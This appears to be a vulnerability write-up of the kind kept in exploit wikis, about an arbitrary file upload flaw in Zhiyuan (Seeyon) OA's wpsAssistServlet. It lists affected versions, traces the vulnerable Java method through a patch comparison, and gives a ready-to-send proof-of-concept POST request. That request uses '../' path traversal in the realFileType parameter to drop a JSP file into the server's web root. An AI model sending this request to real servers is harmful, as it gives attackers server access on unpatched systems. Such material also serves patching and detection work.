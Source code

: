 # Zhiyuan OA wpsAssistServlet any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file in the Zhiyuan OA wpsAssistServlet interface. The attacker can send a specific request package to upload malicious files and obtain server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6, A8, A8N (V8.0SP2, V8.1, V8.1SP1)</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA G6, G6N (V8.1, V8.1SP1)</span>

## Network surveying and mapping



## Vulnerability reappears

Product Home Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658806205627-07ce1bd0-adf1-4aae-9f3a-a6885bf8bfd7.png)

Download patch 220706-S004 to compare the modified files

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658806584119-32f25f71-5351-4781-ab5b-7435032ec7ec.png)

The main modification is the method `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile`

```php
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

Code for the oaSaveFile method called upward traceability

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658806789623-07df56ba-fe62-4c0d-9374-11cfc3077bdf.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658807010120-47006179-52db-4d27-8e18-fe00dbc8482a.png)

In `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost`, the file upload interface can be called.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658809800167-1f074e5b-88b2-468c-b29f-794f8d5ddfaa.png)

`C://Seeyon/A6/base/temporary` is the default upload location, but the `realFileType, fileId` parameters are controllable, and you can upload it to any directory through ../ to verify the POC

```php
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658810152744-1a171b0d-25f0-4c99-9ff4-4202c66d40b3.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658810231876-43f625d6-dc8f-421d-96ae-f753722bf2c5.png)